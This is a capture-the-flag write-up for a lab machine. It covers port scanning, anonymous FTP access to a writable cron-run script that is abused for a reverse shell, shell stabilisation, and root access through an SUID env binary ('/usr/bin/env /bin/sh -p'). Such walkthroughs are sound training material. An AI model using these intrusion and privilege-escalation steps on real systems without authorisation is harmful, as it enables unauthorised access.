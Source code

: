 # Hacking Challenge Write-Up Template

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

## SMB Enumeration

![image](https://github.com/user-attachments/assets/3ac52289-3ebd-41d9-952c-aa23652037e8)

![image](https://github.com/user-attachments/assets/5d393185-fb1a-4fcb-84e6-d91eb2bc5c3b)

After downloading both of the photos, no information could be found using stegseek or steghide. Seems to be a dead end.

## FTP enumeration

Logging into the ftp server using anonymous login credentials, there is 1 directory containing 3 files.
```
📂 /
 ├── 📂 scripts
 │   ├── 📄 clean.sh            (-rwxr-xrwx) # A simple cleanup file that writes logs to removed_files.log
 │   ├── 📄 removed_files.log   (-rw-rw-r--) # Log file for removed files
 │   ├── 📄 to_do.txt           (-rw-r--r--) # Note to disable anonymous login since it's unsafe (Understatement of the century)
```

## FTP Exploitation

 Since there is write permissions to the clean.sh file, writing in a simple reverse shell and setting up a listener provides us a way of getting a shell. Because cleanup.sh is automated to run, when starting the listener it may take a moment to catch the shell.
 ![image](https://github.com/user-attachments/assets/b3865e25-347a-45a0-87d2-b8c8d418ce1e)

### Shell Stabilization

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```
After the shell has stabilized that first flag can be found in user.txt

## Privilege Escalation

Starting with basic enumeration, I like to check for any sudo commands available and suid permissions.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Using https://gtfobins.github.io/ we find that the env suid bit is set. 

```bash
/usr/bin/env /bin/sh -p
```
And with that we've obtained root privileges!

![image](https://github.com/user-attachments/assets/cd85dbd7-7688-41ba-af1a-84f683aa31e2)


### Notes:
- Enhance understanding of GTFObin binary commands.

